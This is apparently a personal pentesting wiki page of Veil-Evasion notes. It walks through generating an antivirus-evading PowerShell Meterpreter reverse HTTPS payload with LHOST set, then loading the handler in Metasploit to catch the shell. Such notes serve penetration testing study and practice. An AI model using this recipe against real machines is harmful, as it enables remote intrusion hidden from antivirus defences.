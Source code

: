 ```yaml
---
title: Intrusion / Exploitation
description: 
published: true
date: 2021-08-14T21:22:38.894Z
tags: security, pentesting, intrusion, exploitation
editor: markdown
dateCreated: 2021-08-14T21:22:38.894Z
---
```


# Intrusion / Exploitation
## AV Evasion
./Veil-evasion
List / ls
- 	List all different payload the tool can generate
- 
- The aux modules coldware_wrapper converts a exe in a WAR file for execution in a Java Runtime Env
- 
- The pyinstaller_wrapper takes a python program and converts it into an exe

Info [payload name]
- Get infos of a payload

Use [payload name]
 	

Use a payload
- options
- generate - generate payload
- Exit  - go back to main menu

Clean
- Reset all payload configurations, ensures you are working on a clean slate
Should be done every time we start veil-evasion

**Example**
Cd /opt/Veil-evasion
./Veil-evasion.py
List
Info powershell/meterpreter/rev_https
Use powershell/meterpreter/rev_https
Options
Set LHOST ip
Generate   ==> Will generate payload
Cd /usr/share/veil-output/source
Cd /usr/share/veil-output/handlers ==> Use then for Metasploit
Cd /opt/metasploit-x.xx
./app/msfconsole
Resource /usr/share/veil-output/handlers/veil_handler.rc
Show options
Job
